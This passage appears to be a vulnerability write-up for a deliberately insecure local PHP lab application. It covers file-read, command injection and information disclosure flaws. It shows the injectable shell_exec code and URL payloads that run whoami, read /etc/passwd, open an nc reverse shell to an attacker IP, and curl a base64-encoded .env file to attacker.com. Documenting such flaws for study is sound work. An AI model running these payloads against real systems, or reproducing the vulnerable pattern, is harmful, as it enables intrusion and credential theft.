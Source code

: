 **Read Database Credentials**:
```
http://localhost:8080/settings.php?file=.env.example
```

**Read Source Code**:
```
http://localhost:8080/settings.php?file=index.php
http://localhost:8080/settings.php?file=dashboard.php
```

---

### 7. Command Injection

**Location**: `settings.php` - Network Diagnostics
**Severity**: CRITICAL

#### Vulnerable Code:
```php
$host = $_GET['ping'];
$result = shell_exec("ping -c 3 " . $host);
```

#### Exploitation:

**Command Chaining**:
```
http://localhost:8080/settings.php?ping=localhost;whoami
http://localhost:8080/settings.php?ping=localhost;cat+/etc/passwd
http://localhost:8080/settings.php?ping=localhost;ls+-la+/var/www/html
```

**Reverse Shell**:
```
http://localhost:8080/settings.php?ping=localhost;nc+-e+/bin/bash+attacker-ip+4444
```

**Data Exfiltration**:
```
http://localhost:8080/settings.php?ping=localhost;curl+http://attacker.com/$(cat+.env.example|base64)
```

---

### 8. Information Disclosure

**Location**: Multiple files
**Severity**: MEDIUM to HIGH

#### Examples:

**PHP Info**:
```
http://localhost:8080/index.php?info=1
http://localhost:8080/settings.php?phpinfo=1
```

